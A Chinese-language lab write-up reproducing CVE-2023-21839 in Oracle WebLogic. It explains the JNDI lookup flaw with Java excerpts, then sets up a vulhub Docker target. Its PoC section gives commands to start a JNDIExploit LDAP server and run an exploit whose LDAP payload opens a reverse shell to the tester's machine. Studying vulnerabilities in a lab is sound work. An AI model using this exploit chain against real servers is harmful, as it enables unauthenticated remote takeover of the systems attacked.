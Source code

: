 
---
author: 一亨
---
# 	CVE-2023-21839
###### tags:`PoC_Implement` `CVE` `範例`

:::info
[TOC]
:::

## CVE Info
- CVE_ID : 	CVE-2023-21839
- 影響範圍 :

Oracle WebLogic Server 12.2.1.3.0

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0
- 說明 : 
```Vulnerability in the Oracle WebLogic Server product of Oracle Fusion Middleware (component: Core). Supported versions that are affected are 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via T3, IIOP to compromise Oracle WebLogic Server. Successful attacks of this vulnerability can result in unauthorized access to critical data or complete access to all Oracle WebLogic Server accessible data. CVSS 3.1 Base Score 7.5 (Confidentiality impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N).```
- cvss_score : ```7.5```
- cvss_vector : ``` CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N```
- NVD_Published_Date : ```01/17/2023```

## CVE 原理
https://www.ddosi.org/cve-2023-21839/
WebLogic是一款Java EE應用程式伺服器，由Oracle公司開發。它是一個高度可擴展且可靠的平台，用於開發和部署分佈式企業級應用程式。WebLogic提供了豐富的功能，包括Web服務支援、JDBC資料庫存取、JMS消息服務、分佈式緩存、集群和負載平衡等。它支援Java EE規範，如EJB、JSP、Servlet、JMS、JDBC和JTA等。WebLogic是企業級應用程式伺服器的領導者之一，廣泛用於金融、保險、製造、零售等各種行業的應用程式開發和部署中。

WebLogic存在遠端代碼執行漏洞，該漏洞允許未經身份驗證的遠端攻擊者通過T3/IIOP協定網路訪問並破壞易受攻擊的WebLogic伺服器，成功利用此漏洞可能導致Oracle WebLogic伺服器被接管或敏感信息洩露。

ForeignOpaqueReference是OpaqueReference介面的實現類。 在ForeignOpaqueReference類中聲明了兩個私有變數：jndiEnvironment和remoteJNDIName，同時聲明了兩個構造方法，在有參構造方法中接收env和remoteJNDIName，並分別賦值給了上面的兩個私有類變數。

ForeignOpaqueReference類的getReferent（）方法是OpaqueReference介面的實現方法，在getReferent（）方法中，retVal = context.lookup（this.remoteJNDIName）; 對本類remoteJNDIName變數中的JNDI位址進行遠端載入，導致了反序列化漏洞
```java
package weblogic.jndi.internal;
// 進入反序列化
public class ForeignOpaqueReference implements OpaqueReference, Serializable {                  
    private Hashtable jndiEnvironment;
    private String remoteJNDIName;
    ......
    public ForeignOpaqueReference(String remoteJNDIName, Hashtable env) {
        this.remoteJNDIName = remoteJNDIName;
        this.jndiEnvironment = env;
    }
    public Object getReferent(Name name, Context ctx) throws NamingException {
        InitialContext context;
        if (this.jndiEnvironment == null) {
            context = new InitialContext();
        } else {
            Hashtable properties = this.decrypt();
            context = new InitialContext(properties);
        }
        Object retVal;
        try {
            retVal = context.lookup(this.remoteJNDIName);   // 漏洞點
        } finally {
            context.close();
        }
        return retVal;
    }
    ......
}
// getReferent() 調用分析
```
```java
package weblogic.jndi;
public interface OpaqueReference {
    Object getReferent(Name var1, Context var2) throws NamingException;
    String toString();
}
```
// OpaqueReference 介面有兩個抽象方法：getReferent() 和 toString()；

// ForeignOpaqueReference 類的 getReferent() 方法調用在 WLNamingManager 類中。
```java
package weblogic.jndi.internal;
public final class WLNamingManager {
    public static Object getObjectInstance(Object boundObject, Name name, Context ctx, Hashtable env) throws NamingException {
        if (boundObject instanceof ClassTypeOpaqueReference) {
            ......
        } else if (boundObject instanceof OpaqueReference) {
            boundObject = ((OpaqueReference)boundObject).getReferent(name, ctx);
        } else if (boundObject instanceof LinkRef) {
            ...
        }
    }
}
```
// CVE-2023-21839 是在反序列化過程中沒有進行惡意操作，在完成反序列化過程後執行了漏洞類 ForeignOpaqueReference 中 getReferent() 方法中的 lookup() 才觸發的漏洞。
// 其中，Context 的 lookup 方法是用來查找指定名稱的物件的，它接受一個字串參數，返回一個 Object 物件，如果沒有找到指定名稱的物件，則返回 null，我們則利用此點觸發反序列化漏洞。

## 環境搭建
在vulhub社區更新了此漏洞，直接拉取該環境即可
```
git clone https://github.com/vulhub/vulhub.git
```
![image](https://github.com/2023Project/2023Project/assets/88665055/386dcf1a-f28c-4f9c-b31d-42516f54440e)

```
cd weblogic  //進入weblogic資料夾
cd CVE-2023-21839  //進入CVE-2023-21839漏洞資料夾
docker-compose up -d //開啟漏洞環境，拉取映像檔
docker ps  //查看當前docker執行情況，可以看到該漏洞環境已經開啟
```
![image](https://github.com/2023Project/2023Project/assets/88665055/fcb04a7e-fcf3-4c1c-b83f-b1cb19f2b08e)


![image](https://github.com/2023Project/2023Project/assets/88665055/3d2db618-8ab5-4b01-ba15-0f1acacde3af)

訪問
``
http://your-ip:7001/console
``
，可以看到登入介面
![image](https://github.com/2023Project/2023Project/assets/88665055/6fc8bf91-b347-41df-8178-713cc06cf78a)

## POC

### 以下是另一台linux
//由於是利用docker建置，理論上可在同一台linux執行，此處考量Kali Linux已有需要環境

複現所需的兩個工具

JNDIExploit-1.2-SNAPSHOT.jar:https://github.com/Mr-xn/JNDIExploit-1/releases/tag/v1.2
//注意JAVA版本為11，若版本為17的話，會遇到java.lang.NoClassDefFoundError: Could not initialize class com.feihong.ldap.utils.Cache錯誤

CVE-2023-21839：https://github.com/4ra1n/CVE-2023-21839
//注意此repository已被移除，我是在以前有下載過

1、在 Kali Linux 上開啟 LDAP 服務監聽。
![image](https://github.com/2023Project/2023Project/assets/88665055/cd2a33dc-431a-477d-aab7-a12decc5b86a)
```
 java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.5.134
```
2、在Kali Linux上使用nc開啟監聽端口。
![image](https://github.com/2023Project/2023Project/assets/88665055/73dc1ff8-2fba-48d1-9bf1-8cdd928cdf6c)

3、使用CVE-2023-21839工具來進行攻擊測試（將工具上傳至Kali進行編譯，然後再執行）

```
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 192.168.5.138 -port 7001 -ldap ldap://192.168.5.134:1389/Basic/ReverseShell/192.168.5.134/1337
```
![image](https://github.com/2023Project/2023Project/assets/88665055/373d7744-671c-4a8f-bd29-b5c09d8ec2ff)



成功取得WebLogic Server的反彈shell。

## Reference
> 貼來源連接囉~!
> https://stackoverflow.com/questions/52504825/how-to-install-jdk-11-under-ubuntu
> https://github.com/Mr-xn/JNDIExploit-1/issues/2
> https://github.com/vulhub/vulhub
